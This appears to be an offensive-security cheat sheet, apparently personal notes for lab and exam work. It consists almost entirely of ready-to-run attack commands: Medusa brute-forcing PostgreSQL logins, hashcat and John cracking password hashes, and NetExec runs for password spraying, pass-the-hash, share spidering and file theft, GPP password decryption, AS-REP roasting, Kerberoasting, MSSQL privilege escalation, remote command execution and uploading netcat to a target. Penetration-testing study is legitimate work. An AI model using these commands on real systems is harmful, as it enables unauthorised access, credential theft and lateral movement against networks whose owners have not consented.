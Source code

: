 ```bash
# mdusa
sed 's/^/:/' /usr/share/seclists/Passwords/Default-Credentials/postgres-betterdefaultpasslist.txt > postgres-defaultpasslist.txt
medusa -C postgres-defaultpasslist.txt -h 192.168.175.47 -M postgres -n 5432 
medusa -h 192.168.168.108 -u postgres -P /usr/share/seclists/Passwords/UserPassCombo-Jay.txt -M postgres -n 5432
```
## hashcrack
```bash
# MD5-RAW: 0, SHA-256: 1400, NTLM: 1000, NetNTLMv2: 5600, AS-REP: 18200, TGS-REP: 13100, DCC2: 2100
hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt -r /usr/share/john/rules/best64.rule --force

# john
john --wordlist=/usr/share/wordlists/rockyou.txt --rules /usr/share/john/rules/best64.rule hash.txt
john --wordlist=/usr/share/wordlists/fasttrack.txt --rules /usr/share/john/rules/best64.rule hash
```
## Windows
### netexec
```bash
# Module list
nxc ldap -L
## Nomal
nxc smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success --local-auth --loggedon-users
nxc smb 192.168.226.189 192.168.226.191 192.168.226.248-249 -u user -H 54abdf854d8c0653b1be3458454e4a3b -d htb.local --continue-on-success
nxc smb 10.129.144.138 -u "guest" -p "" --rid-brute --pass-pol
nxc smb 10.129.144.138 -u user_list -p user_list --no-brute

# SMB share
nxc smb 10.129.204.177 -u username -p 'Nexus123!' -d inlanefreight.htb --shares
nxc smb 10.129.204.177 -u username -p 'Nexus123!' -d inlanefreight.htb --spider serviceaccount --regex .
nxc smb 10.129.204.177 -u username -p 'Nexus123!' -d inlanefreight.htb --share serviceaccount --get-file flag.txt flag.txt

# pass-pol
nxc smb 10.129.204.177  -u '' -p '' --pass-pol

# GPP
## gpp-decryp cmd
nxc smb 192.168.50.75 -u username -p 'Nexus123!' -M gpp_password
nxc smb 192.168.50.75 -u username -p 'Nexus123!' -M gpp_autologin

# asreproast
nxc ldap dc01.inlanefreight.htb -u username -p 'Nexus123!' --asreproast asreproast2.out
# kerberoasting
nxc ldap dc01.inlanefreight.htb -u username -p 'Nexus123!' --kerberoasting kerberoasting.out
# Kerberos Unconstrained Delegation
nxc ldap dc01.inlanefreight.htb -u username -p 'Nexus123!' --trusted-for-delegation
# No password
nxc ldap 10.129.204.177 -u username -p 'Nexus123!' -d inlanefreight.htb --password-not-required

# MSSQL
nxc mssql 172.16.15.15 -u sql -p 'Nexus123!' --local-auth -M mssql_priv
nxc mssql 172.16.15.15 -u sql -p 'Nexus123!' --local-auth -M mssql_priv -o ACTION=privesc
nxc mssql 172.16.15.15 -u sql -p 'Nexus123!' --local-auth -x 'whoami'
nxc mssql 172.16.15.15 -u sql -p 'Nexus123!' --local-auth --put-file /usr/share/windows-binaries/nc.exe 'C:/Windows/Temp/nc.exe'
```